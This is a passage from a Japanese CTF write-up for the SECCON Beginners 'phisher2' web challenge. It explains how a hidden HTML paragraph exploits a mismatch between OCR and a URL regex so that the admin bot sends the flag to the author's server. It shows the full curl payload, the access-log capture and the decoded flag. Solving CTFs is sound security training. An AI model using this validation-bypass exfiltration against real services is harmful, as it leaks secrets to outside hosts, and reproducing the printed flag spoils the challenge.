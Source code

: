 ```py:admin.py
    try:
        # It seems safe url, therefore let's open the web page.
        requests.get(f"{input_url}?flag={FLAG}")
    except Exception:
        return "admin: I could not open that inner link.", ocr_url, input_text
    return "admin: Very good web site. Thanks for sharing!", ocr_url, input_text
```

そのため、

- OCRで`https://phisher2.beginners.seccon.games`が返るようにする
- `text`パラメータの`find_url_in_text`のマッチで自分のサーバーが返るようにする
- 自分のサーバーのアクセスログを見る

でflagをゲットできます。

``OCRで`https://phisher2.beginners.seccon.games`が返るようにする``は、`text`パラメータの内容がHTMLファイルとしてブラウザに読み込まれるので、

```html
<p style="display: none;">https://example.com</p>
<p>https://phisher2.beginners.seccon.games/</p>
```

のようにしてあげることで倒せます。
（自分のサーバーを`https://example.com`とする場合）

`` `text`パラメータの`find_url_in_text`のマッチで自分のサーバーが返るようにする``は、はじめにマッチしたURLが返ることがわかるので、`https://phisher2.beginners.seccon.games/`を後ろのほうに書いてあげればよいことがわかります。

```py
def find_url_in_text(text: str):
    result = re.search(r"https?://[\w/:&\?\.=]+", text)
    if result is None:
        return ""
    else:
        return result.group()
```

最終的なリクエストは以下になります。

```
$ curl -X POST -H "Content-Type: application/json" -d '{"text":"<p style=\"display: none;\">https://example.com</p><p>https://phisher2.beginners.seccon.games/</p>"}' https://phisher2.beginners.seccon.games
{"input_url":"<p style=\"display: none;\">https://example.com</p><p>https://phisher2.beginners.seccon.games/</p>","message":"admin: Very good web site. Thanks for sharing!","ocr_url":"https://phisher2.beginners.seccon.games/"}
```

自分のサーバーのアクセスログを見てみると、

```
(snip) GET /?flag=ctf4b%7Bw451t4c4t154w?%7D HTTP/1.1" 200 (snip)
```

flagつきでリクエストされています。
パーセントエンコーディングされているので、戻してあげればflagゲットです。

```
irb(main)> require 'uri'; URI.decode_www_form_component('ctf4b%7Bw451t4c4t154w?%7D')
=> "ctf4b{w451t4c4t154w?}"
```

## さいごに

web以外の問題も解けたものがいくつかあるので、またWriteupを書ければなと思います！
